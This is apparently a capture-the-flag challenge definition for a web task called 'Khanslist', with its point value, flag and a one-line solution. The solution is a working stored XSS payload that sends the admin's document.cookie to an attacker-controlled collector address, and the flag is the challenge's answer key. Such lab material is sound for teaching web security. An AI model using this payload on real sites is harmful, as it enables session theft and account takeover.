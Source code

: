 # RunCodeWeb

## Name: Khanslist

### Category: Web

### Message:
```
Use/Create your account at <a target="_new" href="https://derp.runcode.ninja">Derp Runcode</a>.<br>
Acquire the admin account.
<br><br>
<a href="https://twitter.com/ohai_ninja" target="_blank">author: @ohai_ninja</a>
```

### Value: 20

### Max Attempts: 0

### Flag: 
```
derp{E451357_xSS_3v3r}
```

### Files:
[docker](xss-site-1)

### Solution:
```
Report to admin feature: <script>document.write('<img src="http://10.YY.XX.2:9000/collect.gif?cookie=' + document.cookie + '" />');</script>
```

